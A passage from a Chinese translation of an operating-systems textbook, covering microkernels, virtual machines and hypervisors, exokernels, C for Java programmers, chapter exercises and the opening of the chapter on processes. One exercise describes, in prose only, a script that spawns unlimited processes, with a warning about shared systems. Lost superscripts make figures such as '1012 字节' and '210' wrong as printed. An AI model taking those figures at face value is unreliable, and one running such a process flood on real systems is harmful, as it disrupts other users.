系统对每个进程的权限有着许多限制。正如已经提及的，设备驱动器只能与授权的I/O端口接触，对内核调用的访问也是按单个进程进行控制的，这是考虑到进程具有向其他多个进程发送消息的能力。进程也可获得有限的许可，让在内核的其他进程访问其地址空间。例如，一个文件系统可以为磁盘驱动器获得一种允许，让内核在该文件系统的地址空间内的特定地址上进行对盘块的一个新读操作。总体来说，所有这些限制是让每个驱动和服务器只拥有完成其工作所需要的权限，别无其他，这样就极大地限制了故障部件可能造成的危害。
一个与小内核相关联的思想是在内核中的机制与策略分离的原则。为了更清晰地说明这一点，让我们考虑进程调度。一个比较简单的调度算法是，对每个进程赋予一个优先级，并让内核执行在具有最高优先级进程中可以运行的某个进程。这里，机制（在内核中）就是寻找最高优先级的进程并运行之。而策略（赋予进程以优先级）可以由用户态中的进程完成。在这个方式中，机制和策略是分离的，从而使系统内核变得更小。
一个微内核思想的略微变体是将进程划分为两类：服务器，每个服务器提供某种服务；客户端，使用这些服务。这个模式就是所谓的客户机-服务器模式。通常，在系统最底层是微内核，但并不是必须这样的。这个模式的本质是存在客户端进程和服务器进程。
一般地，在客户端和服务器之间的通信是消息传递。为了获得一个服务，客户端进程构造一段消息，说明所需要的服务，并将其发给合适的服务器。该服务完成工作，发送回应。如果客户端和服务器运行在同一个机器上，则有可能进行某种优化，但是从概念上看，在这里讨论的是消息传递。
这个思想的一个显然的、普遍方式是，客户端和服务器运行在不同的计算机上，它们通过局域或广域网连接，如图1-27所示。由于客户端通过发送消息与服务器通信，客户端并不需要知道这些消息是在它们的本地机器上处理，还是通过网络被送到远程机器上处理。对于客户端而言，这两种情形是一样的：都是发送请求并得到回应。所以，客户机-服务器模式是一种可以应用在单机或者网络机器上的抽象。

越来越多的系统，包括用户家里的PC机，都成为了客户端，而在某地运行的大型机器则成为服务器。事实上，许多Web就是以这个方式运行的。一台PC机向某个服务器请求一个Web页面，而后，该Web页面回送。这就是网络中客户机-服务器的典型应用方式。
OS/360的最早版本是纯粹的批处理系统。然而，有许多360用户希望能够在终端上交互工作，于是在IBM公司内外的一些研究小组决定为它编写一个分时系统。在后来推出了正式的IBM分时系统，TSS/360。但是它非常庞大，运行缓慢，于是在花费了约五千万美元的研制费用后，该系统最后被弃之不用（Graham，1970）。但是在麻省剑桥的一个IBM研究中心开发了另一个完全不同的系统，这个系统被IBM最终用作为产品。它的直接后续，称为z/VM，目前在IBM的现有大型机上广泛使用，zSeries则在大型公司的数据中心中广泛应用，例如，作为e-commerce服务器，它们每秒可以处理成百上千个事务，并使用达数百万G字节的数据库。
1.VM/370
这个系统最初被命名为CP/CMS，后来改名为VM/370（Seawright和MacKinnon，1979）。它是源于如下一种机敏的观察。分时系统应该提供这些功能：（1）多道程序，（2）一个比裸机更方便的、有扩展界面的计算机。VM/370存在的目的是将二者彻底地隔离开来。
这个系统的核心称为虚拟机监控程序（virtual machine monitor），它在裸机上运行并且具备了多道程序功能。该系统向上层提供了若干台虚拟机，如图1-28所示。它不同于其他操作系统的地方是：这些虚拟机不是那种具有文件等优良特征的扩展计算机。与之相反，它们仅仅是裸机硬件的精确复制品。这个复制品包含了内核态/用户态、I/O功能、中断及其他真实硬件所应该具有的全部内容。

由于每台虚拟机都与裸机相同，所以在每台虚拟机上都可以运行一台裸机所能够运行的任何类型的操作系统。不同的虚拟机可以运行不同的操作系统，而且实际上往往就是如此。在早期的VM/370系统上，有一些系统运行OS/360或其他大型批处理或事务处理操作系统中的某一个，而另一些虚拟机运行单用户、交互式系统供分时用户们使用，这个系统称为会话监控系统（Conversational Monitor System，CMS）。后者在程序员中很流行。
当一个CMS程序执行系统调用时，该调用被陷入到其虚拟机的操作系统上，而不是VM/370上，似乎它运行在实际的机器上，而不是在虚拟机上。CMS然后发出普通的硬件I/O指令读出虚拟磁盘或其他需要执行的调用。这些I/O指令由VM/370陷入，然后，作为对实际硬件模拟的一部分，VM/370完成指令。通过对多道程序功能和提供扩展机器二者的完全分离，每个部分都变得非常简单，非常灵活且容易维护。
虚拟机的现代化身，z/VM，通常用于运行多个完整的操作系统，而不是简化成如CMS一样的单用户系统。例如，zSeries有能力随着传统的IBM操作系统一起，运行一个或多个Linux虚拟机。
2.虚拟机的再次发现
IBM拥有虚拟机产品已经有四十年了，而有少数公司，包括Sun Microsystems公司和Hewlett-Packard等公司，近来也在他们的高端企业服务器上增加对虚拟机的支持，在PC机上，直到最近之前，虚拟化的思想在很大程度上被忽略了。不过近年来，新的需求，新的软件和新的技术的结合已经使得虚拟机成为一个热点。
首先看需求。传统上，许多公司在不同的计算机上，有时还在不同的操作系统上，运行其邮件服务器、Web服务器、FTP服务器以及其他服务器。他们看到虚拟化可以使他们在同一台机器上运行所有的服务器，而不会由于一个服务器崩溃，就影响其余的系统。
虚拟化在Web托管世界里也很流行。没有虚拟化，Web托管客户端只能共享托管（在Web服务器上给客户端一个账号，但是不能控制整个服务器软件）以及独占托管（提供客户端整个机器，这样虽然很灵活，但是对于小型或中型Web站点而言，成本效益比不高）。当Web托管公司提供租用虚拟机时，一台物理机器就可以运行许多虚拟机，每个虚拟机看起来都是一台完全的机器。租用虚拟机的客户端可以运行自己想使用的操作系统和软件，但是只要支付独占一台机器的几分之一的费用（因为同一台物理机器可以同时支持多台虚拟机）。
虚拟化的另外一个用途是，为希望同时运行两个或多个操作系统，比如Windows和Linux的最终用户服务，某个偏好的应用程序可运行在一个操作系统上，而其他的应用程序可运行在不同的操作系统上。如图1-29a所示的情形，而术语“虚拟机监控程序”近年来已经变化成类型1虚拟机管理程序（type 1 hypervisor）。

现在考察软件。虚拟机的吸引力是没有争议的，问题在于实现。为了在一台计算机上运行虚拟机软件，其CPU必须被虚拟化（Popek和Goldberg，1974）。不过在外壳中，存在一些问题。当运行虚拟机（在用户态中）的操作系统执行某个特权指令时，比如修改PSW或进行I/O操作，硬件实际上陷入到了虚拟机中，这样有关指令就可以在软件中模拟。在某些CPU上（特别是Pentium和它的后继者，以及其克隆版中）试图在用户态中执行特权指令时，会被忽略掉。这样一种特性，使得在这类硬件中无法实现虚拟机，这也解释了PC机世界中，缺乏对虚拟机兴趣的原因。当然，对于Pentium而言，还有解释器可以运行在Pentium上，但是其性能丧失了5～10倍，这样对于要求高的工作来说，就没有意义了。
由于20世纪90年代若干学术研究小组的努力，特别是斯坦福大学的Disco（Bugnion等人，1997），实现了商业化产品（例如VMware工作站），人们对虚拟机的热情复兴了。VMware工作站是类型2虚拟机管理程序，如图1-29b所示。与运行在裸机上的类型1虚拟机管理程序不同，类型2虚拟机管理程序作为一个应用程序运行在Windows、Linux或其他操作系统上，这些系统称为宿主机操作系统。在类型2管理程序启动后，它从CD-ROM安装盘中读入供选择的客体操作系统，并安装在一个虚拟盘上，该盘实际只是宿主机操作系统文件系统中的一个大文件。
在客户端操作系统启动时，它完成在真实硬件上相同的工作，如启动一些后台进程，然后是GUI。某些管理程序一块一块地翻译客户端操作系统的二进制程序，代替含有管理程序调用的特定控制指令。翻译后的块可以立即执行，或者缓存起来供后续使用。
处理控制指令的一种不同方式是，修改操作系统，删掉它们。这种方式不是真正虚拟化，而是准虚拟化（paravirtualization）。我们将在第8章具体讨论虚拟化。
3.Java虚拟机
与虚拟机克隆真实机器不同，另一种策略是对机器进行分区，换句话说，给每个用户整个资源的一个子集。这样，某一个虚拟机可能得到磁盘的0至1023盘块，而另一台虚拟机会得到1024至2047盘块，等等。
在底层中，一种称为外核（exokernel，Engler等人，1995）的程序在内核态中运行。它的任务是为虚拟机分配资源，并检查试图使用这些资源的企图，以确保没有机器会使用他人的资源。每个用户层的虚拟机可以运行自己的操作系统，如VM/370和Pentium虚拟8086等，但限制在只能使用已经申请并且获得分配的那部分资源。
外核机制的优点是，它减少了映像层。在其他的设计中，每个虚拟机都认为它有自己的磁盘，其盘块号从0到最大编号，这样虚拟机监控程序必须维护一张表格用以重映像磁盘地址（以及其他资源）。有了外核这个重映像处理就不需要了。外核只需要记录已经分配给各个虚拟机的有关资源即可。这个方法还有一个优点，它将多道程序（在外核内）与用户操作系统代码（在用户空间内）加以分离，而且相应负载并不重，这是因为外核所做的一切，只是保持多个虚拟机彼此不发生冲突。
操作系统通常是由许多程序员写成的，包括很多部分的大型C（有时是C++）程序。用于开发操作系统的环境，与个人（如学生）用于编写小型Java程序的环境是非常不同的。本节试图为那些有时编写Jave的程序员简要地介绍编写操作系统的环境。
本部分不是C语言的指南，而是一个有关C和Java之间的关键差别的简要介绍。Java是基于C的，所以两者之间有许多类似之处。两者都是命令式的语言，例如，有数据类型、变量和控制语句等。在C中基本数据类型是整数（包括短整数和长整数）、字符和浮点数等。使用数组、结构体和联合，可以构造组合数据类型。C语言中的控制语句与Java类似，包括if、switch、for以及while等语句。在这两个语言中，函数和参数大致相同。
一项C语言中有的而Java中没有的特点是显式指针（explicit pointer）。指针是一种指向（即包含对象的地址）一个变量或数据结构的变量。考虑下面的语句
char c1，c2，*p；
c1='c'；
p=＆c1；
c2=*p；
这些语句声明c1和c2是字符变量，而p是指向一个字符的变量（即包含字符的地址）。第一个赋值语句将字符c的ASCII代码存到变量c1中。第二个语句将c1的地址赋给指针变量p。第三个语句将由p指向变量的内容赋给变量c2，这样，在这些语句执行之后，c2也含有c的ASCII代码。在理论上，指针是输入类型，所以不能将浮点数地址赋给一个字符指针，但是在实践中，编译器接受这种赋值，尽管有时给出一个警告。指针是一种非常强大的结构，但是如果不仔细使用，也会是造成大量错误的一个原因。
C语言中没有的包括内建字符串、线程、包、类、对象、类型安全（type safety）以及垃圾回收（garbage collection）等。最后这一个是操作系统的一个“淋浴器塞子”。在C中分配的存储空间或者是静态的，或者是程序员明确分配和释放的，通常使用malloc以及free库函数。正是由于后面这个性质——全部由程序员控制所有内存——而且是用明确的指针，使得C语言对编写操作系统而言非常有吸引力。操作系统从一定程度上来说，实际上是个实时系统，即便通用系统也是实时系统。当中断发生时，操作系统可能只有若干微秒去完成特定的操作，否则就会丢失关键的信息。在任意时刻启动垃圾回收功能是不可接受的。
一个操作系统项目通常包括多个目录，每个目录都含有许多.c文件，这些文件中存有系统某个部分的代码，而一些.h头文件则包含供一个或多个代码文件使用的声明以及定义。头文件还可以包括简单的宏，诸如
#define BUFFER_SIZE 4096
宏允许程序员命名常数，这样在代码中出现的BUFFER_SIZE，在编译时该常数就被数值4096所替代。良好的C程序设计实践应该除了0，1和-1之外命名所有的常数，有时把这三个数也进行命名。宏可以附带参数，例如
#define max(a,b)(a＞b?a:b)
这个宏允许程序员编写
i=max(j，k+1)
从而得到
i=(j＞k+1?j:k+1)
将j与k+1之间的较大者存储在i中。头文件还可以包含条件编译，例如
#ifdef PENTIUM
intel_int_ack()；
#endif
如果宏PENTIUM有定义，而不是其他，则编译进对intel_int_ack函数的调用。为了分割与结构有关的代码，大量使用了条件编译，这样只有当系统在Pentium上编译时，一些特定的代码才会被插入，其他的代码仅当系统在SPARC等机器上编译时才会插入。通过使用#include指令，一个.c文件体可以含有零个或多个头文件。
为了构建操作系统，每个.c被C编译器编译成一个目标文件。目标文件使用后缀.o，含有目标机器的二进制代码。它们可以随后直接在CPU上运行。在C的世界里，没有类似于Java字节代码的东西。
C编译器的第一道称为C预处理器。在它读入每个.c文件时，每当遇到一个#include指令，它就取来该名称的头文件，并加以处理、扩展宏、处理条件编译（以及其他事务），然后将结果传递给编译器的下一道，仿佛它们原先就包含在该文件中一样。
由于操作系统非常大（五百万行代码是很寻常的），每当文件修改后就重新编译是不能忍受的。另一方面，改变了用在成千个文件中的一个关键头文件，确实需要重新编译这些文件。没有一定的协助，要想记录哪个目标文件与哪个头文件相关是完全不可行的。
幸运的是，计算机非常善于处理事务分类。在UNIX系统中，有个名为make的程序（其大量的变体如gmake、pmake等），它读入Makefile，该Makefile说明哪个文件与哪个文件相关。make的作用是，在构建操作系统二进制码时，检查此刻需要哪个目标文件，而且对于每个文件，检查自从上次目标文件创建之后，是否有任何它依赖（代码和头文件）的文件已经被修改了。如果有，目标文件需要重新编译。在make确定了哪个.o文件需要重新编译之后，它调用C编译器重新编译这些文件，这样，就把编译的次数减少到最低限度。在大型项目中，创建Makefile是一件容易出错的工作，所以出现了一些工具使该工作能够自动完成。
一旦所有的.o文件都已经就绪，这些文件被传递给称为linker的程序，将其组合成一个单个可执行的二进制文件。此时，任何被调用的库函数都已经包含在内，函数之间的引用都已经解决，而机器地址也都按需要分配完毕。在linker完成之后，得到一个可执行程序，在UNIX中传统上称为a.out文件。这个过程中的各种部分如图1-30所示，图中的一个程序包含三个C文件，两个头文件。这里虽然讨论的是有关操作系统的开发，但是所有内容对开发任何大型程序而言都是适用的。

在操作系统二进制代码链接完成后，计算机就可以重新启动，新的操作系统开始运行。一旦运行，系统会动态调入那些没有静态包括在二进制代码中的模块，诸如设备驱动和文件系统。在运行过程中，操作系统可能由若干段组成，有文本段（程序代码）、数据段和堆栈段。文本段通常是不可改变的，在运行过程中不可修改。数据段开始时有一定的大小，并用确定的值进行初始化，但是随后就被修改了，其大小随需要增长。堆栈段被初始化为空，但是随着对函数的调用和从函数返回，堆栈段时时刻刻在增长和缩小。通常文本段放置在接近内存底部的位置，数据段在其上面，这样可以向上增长。而堆栈段处在高位的虚拟地址，具有向下增长的能力，不过不同系统的工作方式各有差别。
在所有情形下，操作系统代码都是直接在硬件上执行的，不用解释器，也不是即时编译，如Java通常做的那样。
计算机科学是快速发展的领域，很难预测其下一步的发展方向。在大学和产业研究实验室中的研究人员们始终在思考新的思想，这些新思想中的某一些内容并没有什么用处，但是有些新思想会成为未来产品的基石，并对产业界和用户产生广泛的影响。当然，事后解说什么是什么要比在当时说明容易得多。将小麦从稗子中分离出来是非常困难的，因为一种思想从出现到形成影响常常需要20～30年。
例如，当艾森豪威尔总统在1958年建立国防部高级研究项目署（ARPA）时，他试图通过五角大楼的研究预算来削弱海军和空军并维护陆军的地位。他并不是想要发明Internet。但是ARPA做的一件事是给予一些大学资助，用以研究模糊不清的包交换概念，这个研究很快导致了第一个实验包交换网的建立，即ARPANET。该网在1969年启用。没有多久，其他被ARPA资助的研究网络也连接到ARPANET上，于是Internet诞生了。Internet愉快地为学术研究人员们互相发送了20年的电子邮件。到了20世纪90年代早期，Tim Berners-Lee在日内瓦的CERN研究所发明了万维网（World Wide Web），而Marc Andreesen在伊利诺伊大学为万维网写了一个图形浏览器。突然地，Internet上充满了年青人的聊天活动。在知道了这一切之后，艾森豪威尔总统可能气得在他的坟墓中打滚呢。
对操作系统的研究也导致了实际操作系统的戏剧性变化。正如我们较早所讨论的，第一代商用计算机系统都是批处理系统，直到20世纪60年代早期M.I.T.发明了交互式分时系统为止。20世纪60年代后期，即在Doug Engelbart于斯坦福研究院发明鼠标和图形用户接口之前，所有的计算机都是基于文本的。有谁会知道下一个发明将会是什么呢？
在本小节和本书中相关的其他章节中，我们会简要地介绍一些在过去5至10年中操作系统的研究工作，这是为了让读者了解可能会出现什么。这个介绍当然不全面，而且主要依据在高水平的期刊和会议上已经发表的文章，因为这些文章为了得以发表至少需要通过严格的同行评估过程。在有关研究内容一节中所引用的多数文章，它们或者发表在ACM刊物、IEEE计算机协会刊物或者USENIX刊物上，并对这些组织的（学生）成员们在Internet上开放。有关这些组织的更多信息以及它们的数字图书馆，可以访问：

实际上，所有的操作系统研究人员都认识到，目前的操作系统是一个大的、不灵活、不可靠、不安全和带有错误的系统，而且特定的某个操作系统较其他的系统有更多的错误（这里略去了名称以避免责任）。所带来的结果是，大量的研究集中于如何构造更好的操作系统。近来出版的文献有如下一些，关于新操作系统（Krieger等人，2006），操作系统结构（Fassino等人，2002），操作系统正确性（Elphinstone等人，2007；Kumar和Li，2002；Yang等人，2006），操作系统可靠性（Swift等人，2006；LeVasseur等人，2004），虚拟机（Barham等人，2003；Garfinkel等人，2003；King等人，2003；Whitaker等人，2002），病毒和蠕虫（Costa等人，2005；Portokalidis等人，2006；Tucek等人，2007；Vrable等人，2005），错误和排错（Chou等人，2001；King等人，2005），超线程与多线程（Fedorova，2005；Bulpin和Pratt，2005），用户行为（Yu等人，2006），以及许多其他课题。
我们已经叙述完毕引论，并且描绘了鸟瞰式的操作系统图景。现在是进入具体细节的时候了。正如前面已经叙述的，从程序员的观点来看，操作系统的基本目的是提供一些关键的抽象，其中最重要的是进程和线程、地址空间以及文件。所以后面三章都是有关这些关键主题的。
第2章讨论进程与线程，包括它们的性质以及它们之间如何通信。这一章还给出了大量关于进程间如何通信的例子以及如何避免某些错误。
第3章具体讨论地址空间以及关联的内存管理。讨论虚拟内存等重要课题，以及相关的概念，如页面处理和分段等。
第4章里，我们会讨论有关文件系统的所有重要内容。在某种程度上，用户大量看到的是文件系统。我们将研究文件系统接口和文件系统的实现。
输入/输出是第5章的内容。这一章介绍设备独立性和设备依赖性的概念。将把若干重要的设备，包括磁盘、键盘以及显示设备作为示例讲解。
第6章讨论死锁。在这一章中我们概要地说明什么是死锁，不过这章里有大量的内容需要介绍。还讨论了避免死锁的方法。
到此，我们完成了对单CPU操作系统基本原理的学习。不过，还有更多的高级内容要叙述。在第7章里，我们将了解多媒体系统，这类系统的大量特性和要求与传统的操作系统存在着差别。而在其他的篇幅里，我们会讨论多媒体的本质对调度处理和文件系统的影响。另一个高级课题是多处理器系统，包括多处理器、并行计算机以及分布式系统。这些内容放在第8章中讨论。
有一个非常重要的主题，就是操作系统安全，它是第9章的内容。在这一章中讨论的内容涉及威胁（例如，病毒和蠕虫）、保护机制以及安全模型。
随后，我们安排了一些实际操作系统的案例。它们是Linux（第10章）、Windows Vista（第11章）以及Symbian（第12章）。本书以第13章关于操作系统设计的一些思考作为结束。
为了避免混乱，有必要在本书中特别指出，考虑到计算机科学的通用性，所以我们采用公制以代替传统的英制。在图1-31中列出了主要的公制前缀。前缀用首字缩写而成，凡是单位大于1的首字母均大写。这样，一个1TB的数据库占据了1012 字节的存储空间，而100 psec（或100ps）的时钟每隔10-10 s的时间滴答一次。由于milli和micro均以字母“m”开头，所以必须作出区分两者的选择。通常，用“m”表示milli，而用“µ”（希腊字母mu）表示micro。

这里需要说明的还有关于存储器容量的度量，在通常的工业实践中，各个单位的含义稍有不同。这里Kilo表示210 （1024）而不是103 （1000），因为存储器总是2的幂。这样1KB存储器就有1024个字节，而不是1000个字节。类似地，1MB存储器有220 （1 048 576）个字节，1GB存储器有230 （1 073 741 824）个字节。但是，1Kbps的通信线路每秒传送1000个位，而10Mbps的局域网在10 000 000位/秒的速率上运行，因为这里的速率不是2的幂。很不幸，许多人倾向于将这两个系统混淆，特别是混淆关于磁盘容量的度量。在本书中，为了避免含糊，我们使用KB、MB和GB分别表示210 字节220 字节和230 字节，而用符号Kbps、Mbps和Gbps分别表示103 bps、106 bps和109 bps。
考察操作系统有两种观点：资源管理观点和扩展的机器观点。在资源管理的观点中，操作系统的任务是有效地管理系统的各个部分。在扩展的机器观点中，系统的任务是为用户提供比实际机器更便于运用的抽象。这些抽象包括进程、地址空间以及文件。
操作系统的历史很长，从操作系统开始替代操作人员的那天开始，到现代多道程序系统，主要包括早期批处理系统、多道程序系统以及个人计算机系统。
由于操作系统同硬件的交互密切，掌握一些硬件知识对于理解它们是有益的。计算机由处理器、存储器以及I/O设备组成。这些部件通过总线连接。
所有操作系统构建所依赖的基本概念是进程、存储管理、I/O管理、文件管理和安全。这些内容都将用后续的一章来讲述。
任何操作系统的核心是它可处理的系统调用集。这些系统调用真实地说明了操作系统所做的工作。对于UNIX，我们已经考察了四组系统调用。第一组系统调用同进程的创建和终结有关；第二组用于读写文件；第三组用于目录管理；第四组包括各种杂项调用。
操作系统构建方式有多种。最常见的有单体系统、层次化系统、微内核系统、客户机-服务器系统、虚拟机系统和外核系统。
1.什么是多道程序设计？
2.什么是SPOOLing？读者是否认为将来的高级个人计算机会把SPOOLing作为标准功能？
3.在早期计算机中，每个字节的读写直接由CPU处理（即没有DMA）。对于多道程序而言这种组织方式有什么含义？
4.系列计算机的思想在20世纪60年代由IBM引入进System/360大型机。现在这种思想已经消亡了还是继续活跃着？
5.缓慢采用GUI的一个原因是支持它的硬件的成本（高昂）。为了支持25行80列字符的单色文本屏幕应该需要多少视频RAM？对于1024×768像素24位色彩位图需要多少视频RAM？在1980年($5/KB)这些RAM的成本是多少？现在它的成本是多少？
6.在建立一个操作系统时有几个设计目的，例如资源利用、及时性、健壮性等。请列举两个可能互相矛盾的设计目的。
7.下面的哪一条指令只能在内核态中使用？
a)禁止所有的中断。
b)读日期-时间时钟。
c)设置日期-时间时钟。
d)改变存储器映像。
8.考虑一个有两个CPU的系统，并且每一个CPU有两个线程（超线程）。假设有三个程序P0，P1，P2，分别以运行时间5ms，10ms，20ms开始。运行这些程序需要多少时间？假设这三个程序都是100%限于CPU，在运行时无阻塞，并且一旦设定就不改变CPU。
9.一台计算机有一个四级流水线，每一级都花费相同的时间执行其工作，即1ns。这台机器每秒可执行多少条指令？
10.假设一个计算机系统有高速缓存、内存（RAM）以及磁盘，操作系统用虚拟内存。读取缓存中的一个词需要2ns，RAM需要10ns,磁盘需要10ms。如果缓存的命中率是95%，内存的是（缓存失效时）99%，读取一个词的平均时间是多少？
11.一位校对人员注意到在一部将要出版的操作系统教科书手稿中有一个多次出现的拼写错误。这本书大致有700页。每页50行，一行80个字符。若把文稿用电子扫描，那么，主副本进入图1-9中的每个存储系统的层次要花费多少时间？对于内存储方式，考虑所给定的存取时间是每次一个字符，对于磁盘设备，假定存取时间是每次一个1024字符的盘块，而对于磁带，假设给定开始时间后的存取时间和磁盘存取时间相同。
12.在用户程序进行一个系统调用，以读写磁盘文件时，该程序提供指示说明了所需要的文件，一个指向数据缓冲区的指针以及计数。然后，控制权转给操作系统，它调用相关的驱动程序。假设驱动程序启动磁盘并且直到中断发生才终止。在从磁盘读的情况下，很明显，调用者会被阻塞（因为文件中没有数据）。在向磁盘写时会发生什么情况？需要把调用者阻塞一直等到磁盘传送完成为止吗？
13.什么是陷阱指令？在操作系统中解释它的用途。
14.陷阱和中断的主要差别是什么？
15.在分时系统中为什么需要进程表？在只有一个进程存在的个人计算机系统中，该进程控制整个机器直到进程结束，这种机器也需要进程表吗？
16.说明有没有理由要在一个非空的目录中安装一个文件系统？如果要这样做，如何做？
17.在一个操作系统中系统调用的目的是什么？
18.对于下列系统调用，给出引起失败的条件：fork、exec以及unlink。
19.在
count=write(fd,buffer,nbytes);
调用中，能在count中而不是nbytes中返回值吗？如果能，为什么？
20.有一个文件，其文件描述符是fd，内含下列字节序列：3，1，4，1，5，9，2，6，5，3，5。有如下系统调用：
lseek(fd,3,SEEK_SET);
read(fd,＆buffer,4);
其中lseek调用寻找文件中的字节3。在读操作完成之后，buffer中的内容是什么？
21.假设一个10MB的文件存在磁盘连续扇区的同一个轨道上（轨道号：50）。磁盘的磁头臂此时位于第100号轨道。要想从磁盘上找回这个文件，需要多长时间？假设磁头臂从一个柱面移动到下一个柱面需要1ms，当文件的开始部分存储在的扇区旋转到磁头下需要5ms，并且读的速率是100MB/s。
22.块特殊文件和字符特殊文件的基本差别是什么？
23.在图1-17的例子中库调用称为read，而系统调用自身称为read。这两者都有相同的名字是正常的吗？如果不是，哪一个更重要？
24.在分布式系统中，客户机-服务器模式很普遍。这种模式能用在单个计算机的系统中吗？
25.对程序员而言，系统调用就像对其他库过程的调用一样。有无必要让程序员了解哪一个库过程导致了系统调用？在什么情形下，为什么？
26.图1-23说明有一批UNIX的系统调用没有与之相等价的Win32 API。对于所列出的每一个没有Win32等价的调用，若程序员要把一个UNIX程序转换到Windows下运行，会有什么后果？
27.可移植的操作系统是能从一个系统体系结构到另一个体系结构的移动不需要任何修改的操作系统。请解释为什么建立一个完全可移植性的操作系统是不可行的。描述一下在设计一个高度可移植的操作系统时你设计的高级的两层是什么样的。
28.请解释在建立基于微内核的操作系统时策略与机制的分离带来的好处。
29.下面是单位转换的练习：
a)一微年是多少秒？
b)微米常称为micron。那么gigamicron是多长？
c)1TB存储器中有多少字节？
d)地球的质量是6000 yottagram，换算成kilogram是多少？
30.写一个和图1-19类似的shell，但是包含足够的实际可工作的代码，这样读者可测试它。读者还可以添加某些功能，如输入输出重定向、管道以及后台作业等。
31.如果读者拥有一个个人UNIX类操作系统（Linux、MINIX、Free BSD等），可以安全地崩溃和再启动，请写一个可以试图创建一个无限制数量子进程的shell脚本并观察所发生的事。在运行实验之前，通过shell键入sync，在磁盘上备好文件缓冲区以避免毁坏文件系统。注意：在没有得到系统管理员的允许之前，不要在分时系统上进行这一尝试。其后果将会立即发生，尝试者可能会被抓住并受到惩罚。
32.用一个类似于UNIX od或MS-DOS DEBUG的程序考察并尝试解释UNIX类系统或Windows的目录。提示：如何进行取决于OS允许做什么。一个有益的技巧是在一个有某个操作系统的软盘上创建一个目录，然后使用一个允许进行此类访问的不同的操作系统读盘上的原始数据。
从本章开始我们将深入考察操作系统是如何设计和构造的。操作系统中最核心的概念是进程：这是对正在运行程序的一个抽象。操作系统的其他所有内容都是围绕着进程的概念展开的，所以，让操作系统的设计者（及学生）尽早并透彻地理解进程是非常重要的。
进程是操作系统提供的最古老的也是最重要的抽象概念之一。即使可以利用的CPU只有一个，但它们也支持（伪）并发操作的能力。它们将一个单独的CPU变换成多个虚拟的CPU。没有进程的抽象，现代计算将不复存在。在本章里我们会通过大量的细节去探究进程，以及它们的第一个亲戚——线程。
所有现代的计算机经常会在同一时间做许多件事。习惯于在个人计算机上工作的人们也许不会十分注意这个事实，因此列举一些例子可以更清楚地说明这一问题。先考虑一个网络服务器。从各处进入一些网页请求。当一个请求进入时，服务器检查是否其需要的网页在缓存中。如果是，则把网页发送回去；如果不是，则启动一个磁盘请求以获取网页。然而，从CPU的角度来看，磁盘请求需要漫长的时间。当等待磁盘请求完成时，其他更多的请求将会进入。如果有多个磁盘存在，会在满足第一个请求之前就接二连三地对其他的磁盘发出一些或所有的请求。很明显，需要一些方法去模拟并控制这种并发。进程（特别是线程）在这里就可以产生作用。
现在考虑只有一个用户的PC。一般用户不知道，当启动系统时，会秘密启动许多进程。例如，启动一个进程用来等待进入的电子邮件；或者启动另一个防病毒进程周期性地检查是否有新的有效的病毒定义。另外，某个用户进程也许会在所有用户上网的时候打印文件以及烧录CD-ROM。所有的这些活动需要管理，于是一个支持多进程的多道程序系统在这里就显得很有用了。
在任何多道程序设计系统中，CPU由一个进程快速切换至另一个进程，使每个进程各运行几十或几百个毫秒。严格地说，在某一个瞬间，CPU只能运行一个进程。但在1秒钟期间，它可能运行多个进程，这样就产生并行的错觉。有时人们所说的伪并行就是指这种情形，以此来区分多处理器系统（该系统有两个或多个CPU共享同一个物理内存）的真正硬件并行。人们很难对多个并行活动进行跟踪。因此，经过多年的努力，操作系统的设计者发展了用于描述并行的一种概念模型（顺序进程），使得并行更容易处理。有关该模型、它的使用以及它的影响正是本章的主题。
在进程模型中，计算机上所有可运行的软件，通常也包括操作系统，被组织成若干顺序进程（sequential process），简称进程（process）。一个进程就是一个正在执行程序的实例，包括程序计数器、寄存器和变量的当前值。从概念上说，每个进程拥有它自己的虚拟CPU。当然，实际上真正的CPU在各进程之间来回切换。但为了理解这种系统，考虑在（伪）并行情况下运行的进程集，要比我们试图跟踪CPU如何在程序间来回切换简单得多。正如在第1章所看到的，这种快速的切换称作多道程序设计。
在图2-1a中我们看到，在一台多道程序计算机的内存中有4道程序。在图2-1b中，这4道程序被抽象为4个各自拥有自己控制流程（即每个程序自己的逻辑程序计数器）的进程，并且每个程序都独立地运行。当然，实际上只有一个物理程序计数器，所以在每个程序运行时，它的逻辑程序计数器被装入实际的程序计数器中。当该程序执行结束（或暂停执行）时，物理程序计数器被保存在内存中该进程的逻辑程序计数器中。在图2-1c中我们看到，在观察足够长的一段时间后，所有的进程都运行了，但在任何一个给定的瞬间仅有一个进程真正在运行。

在本章，我们假设只有一个CPU。然而，逐渐这个假设就不为真了，因为新的芯片经常是多核的，包含2个、4个或更多的CPU。我们将会在第8章介绍多核芯片以及多处理器，但是在现在，一次只考虑一个CPU会更简单一些。因此，当我们说一个CPU只能真正一次运行一个进程的时候，即使有2个核（或CPU），每一个核也只能一次运行一个进程。
由于CPU在各进程之间来回快速切换，所以每个进程执行其运算的速度是不确定的。而且当同一进程再次运行时，其运算速度通常也不可再现。所以，在对进程编程时决不能对时序做任何确定的假设。例如，考虑一个I/O进程，它用流式磁带机恢复备份的文件，它执行一个10 000次的空循环以等待磁带机达到正常速度，然后发出命令读取第一个记录。如果CPU决定在空循环期间切换到其他进程，则磁带机进程可能在第一条记录通过磁头之后还未被再次运行。当一个进程具有此类严格的实时要求时，也就是一些特定事件一定要在所指定的若干毫秒内发生，那么必须采取特殊措施以保证它们一定在这段时间中发生。然而，通常大多数进程并不受CPU多道程序设计或其他进程相对速度的影响。
进程和程序间的区别是很微妙的，但非常重要。用一个比喻可以使我们更容易理解这一点。想象一位有一手好厨艺的计算机科学家正在为他的女儿烘制生日蛋糕。他有做生日蛋糕的食谱，厨房里有所需的原料：面粉、鸡蛋、糖、香草汁等。在这个比喻中，做蛋糕的食谱就是程序（即用适当形式描述的算法），计算机科学家就是处理器（CPU），而做蛋糕的各种原料就是输入数据。进程就是厨师阅读食谱、取来各种原料以及烘制蛋糕等一系列动作的总和。
现在假设计算机科学家的儿子哭着跑了进来，说他的头被一只蜜蜂螫了。计算机科学家就记录下他照着食谱做到哪儿了（保存进程的当前状态），然后拿出一本急救手册，按照其中的指示处理蛰伤。这里，我们看到处理机从一个进程（做蛋糕）切换到另一个高优先级的进程（实施医疗救治），每个进程拥有各自的程序（食谱和急救手册）。当蜜蜂螫伤处理完之后，这位计算机科学家又回来做蛋糕，从他离开时的那一步继续做下去。
这里的关键思想是：一个进程是某种类型的一个活动，它有程序、输入、输出以及状态。单个处理器可以被若干进程共享，它使用某种调度算法决定何时停止一个进程的工作，并转而为另一个进程提供服务。
